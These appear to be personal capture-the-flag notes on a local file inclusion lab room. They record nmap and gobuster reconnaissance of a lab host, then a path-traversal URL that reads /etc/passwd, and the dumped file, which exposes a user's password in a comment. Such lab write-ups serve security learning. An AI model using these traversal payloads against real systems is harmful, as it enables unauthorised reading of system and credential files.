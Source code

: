 #+TITLE: LFI

* nmap

#+begin_src bash

┌─[root@parrot-virtual]─[~/haxx/ctf/thm/lfi]
└──╼ # nmap -sC -sV -oA nmap/scan 10.10.57.130
Starting Nmap 7.91 ( https://nmap.org  ) at 2020-11-11 13:03 GMT
Nmap scan report for 10.10.57.130
Host is up (0.13s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 e6:3a:2e:37:2b:35:fb:47:ca:90:30:d2:14:1c:6c:50 (RSA)
|   256 73:1d:17:93:80:31:4f:8a:d5:71:cb:ba:70:63:38:04 (ECDSA)
|_  256 d3:52:31:e8:78:1b:a6:84:db:9b:23:86:f0:1f:31:2a (ED25519)
80/tcp open  http    Werkzeug httpd 0.16.0 (Python 3.6.9)
|_http-server-header: Werkzeug/0.16.0 Python/3.6.9
|_http-title: My blog
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.96 seconds

#+end_src

* gobuster

#+begin_src bash

┌─[root@parrot-virtual]─[~/haxx/ctf/thm/lfi]
└──╼ # gobuster dir -u 10.10.57.130 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -o go.scan
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.57.130
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/11/11 13:04:48 Starting gobuster
===============================================================
Progress: 17350 / 87665 (19.79%)^C
[!] Keyboard interrupt detected, terminating.
===============================================================
2020/11/11 13:11:29 Finished
===============================================================

#+end_src

* usernames
: falconfeast
* path traversal
: http://10.10.57.130/article?name=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd
: contents of /etc/passwd
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin syslog:x:102:106::/home/syslog:/usr/sbin/nologin messagebus:x:103:107::/nonexistent:/usr/sbin/nologin _apt:x:104:65534::/nonexistent:/usr/sbin/nologin lxd:x:105:65534::/var/lib/lxd/:/bin/false uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin pollinate:x:109:1::/var/cache/pollinate:/bin/false falconfeast:x:1000:1000:falconfeast,,,:/home/falconfeast:/bin/bash #falconfeast:rootpassword sshd:x:110:65534::/run/sshd:/usr/sbin/nologin mysql:x:111:116:MySQL Server,,,:/nonexistent:/bin/false
